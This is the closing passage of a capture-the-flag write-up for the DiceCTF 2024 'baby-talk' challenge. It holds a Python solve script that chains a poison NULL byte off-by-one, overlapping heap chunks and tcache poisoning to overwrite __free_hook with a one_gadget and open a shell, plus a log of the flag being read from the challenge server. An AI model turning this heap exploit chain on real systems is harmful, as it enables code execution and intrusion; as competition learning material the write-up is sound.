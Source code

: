 ```python
challenge_do_str(str(0x550).encode(), b"b"*0x4f0 + p64(0x500))          # 3 (b): p64(0x500) used to bypass security check `corrupted size vs. prev_size`
challenge_do_str(str(0x550).encode(), b"c"*0x550)                       # 4 (c)
challenge_do_str(str(0x100).encode(), b"d"*0x100)                       # 5: barrier

challenge_do_del(b"3")                                                  # del 3 (b)
challenge_do_tok(b"2", b"\x61")                                         # off-by-one Poison NULL byte => chunk 3's size = 0x500

challenge_do_str(str(0x480).encode(), b"e"*0x18)                        # 3 (b1)
challenge_do_str(str(0x60).encode(), b"f"*0x18)                         # 6 (b2)

challenge_do_del(b"3") # del 3 (b1)
challenge_do_del(b"4") # del 4 (c): trigger unlink(b1) => chunk b2 overlapping with newly merged chunk by unlink

challenge_do_del(b"6") # throw b2 to tcache bin

challenge_do_str(str(0xa00).encode(), b"a"*(0x480 + 0x10) + p64(libc.symbols['__free_hook'])) # create a chunk overlaps with b2 and write to b2->next the address of __free_hook

challenge_do_str(str(0x60).encode(), b"a") # entry = b2-next (__free_hook)

# one_gadget = 0x4f29e
# one_gadget = 0x4f2a5
one_gadget = 0x4f302 # this one_gadget worked
# one_gadget = 0x10a2fc

challenge_do_str(str(0x60).encode(), p64(libc.address + one_gadget)) # arbitrary write: write one_gadget to __free_hook

challenge_do_del(b"5") # trigger __free_hook

io.sendline(b"cat flag.txt") # boom
log.success(io.recvline())
io.close()
```

### 2. results

```bash
╭─   ~/Documents/pwn-everything/CTFs/DiceCTF_2024/baby-talk/bin   main !2 ?1                                                                           ✘ INT  33m 54s seadragnol@whiskeredbbl  01:50:20
╰─❯ python3 solve.py
[+] Opening connection to mc.ax on port 32526: Done
[+] libc.address: 0x7d3ebbe51000
[+] dice{tkjctf_lmeow_fee9c2ee3952d7b9479306ddd8e477ca}
[*] Closed connection to mc.ax port 32526

```

## IX. References

[Poison NULL byte](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#poison-null-byte)

[more detailed Poison NULL byte](https://panda0s.top/2021/06/23/poison-null-byte/)

[tcache technique](../../../challenges/pwnable.tw/challenges/Tcache%20Tear/)

